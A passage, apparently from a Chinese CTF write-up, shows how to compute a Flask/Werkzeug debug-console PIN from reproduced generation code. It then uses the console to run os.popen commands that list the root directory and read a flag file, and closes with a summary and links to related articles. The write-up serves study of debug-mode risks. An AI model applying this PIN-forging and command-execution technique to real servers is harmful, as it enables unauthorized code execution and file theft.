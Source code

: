 	h = hashlib.md5()
	for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
	h.update(b'cookiesalt')
	cookie_name = '__wzd' + h.hexdigest()[:20]
	num = None
	if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
	rv =None
	if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
	print(rv)

这样就能得到pin码，pin码为：222-246-872。  

[![](https://pic.imgdb.cn/item/6094f146d1a9ae528f927279.png)](https://pic.imgdb.cn/item/6094f146d1a9ae528f927279.png)  

那么我们再次来到debug界面，点击右侧的命令符，输入pin码后就可以执行自定义的python代码了。  

	import os
	os.popen("ls -l /").read()#查看文件目录
	os.popen("cat /this_is_the_flag.txt").read()#读取flag文件  

[![](https://pic.imgdb.cn/item/6094f2bfd1a9ae528f9ffcbc.png)](https://pic.imgdb.cn/item/6094f2bfd1a9ae528f9ffcbc.png)  

得到flag。  

# 小结  

这道题目让我对于flask这个框架有了进一步的认识，关于其debug模式开启后造成的安全隐患和ssti注入的新的办法，最重要的是pin码这一新知识点，关于pin码有了一个大概的了解，对于pin码的生成和使用有了了解。   

下面附上相关博客和文章。  

[Flask开启debug模式等于给黑客留了后门](https://zhuanlan.zhihu.com/p/32138231)  
[Flask debug 模式 PIN 码生成机制安全性研究笔记](https://www.cnblogs.com/HacTF/p/8160076.html)  
[关于Flask SSTI，解锁你不知道的新姿势](https://www.secpulse.com/archives/140019.html)  
[个人对PIN码的基本理解](https://blog.csdn.net/xmousez/article/details/57097754?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522162037459616780269875419%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=162037459616780269875419&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-57097754.first_rank_v2_pc_rank_v29&utm_term=pin%E7%A0%81)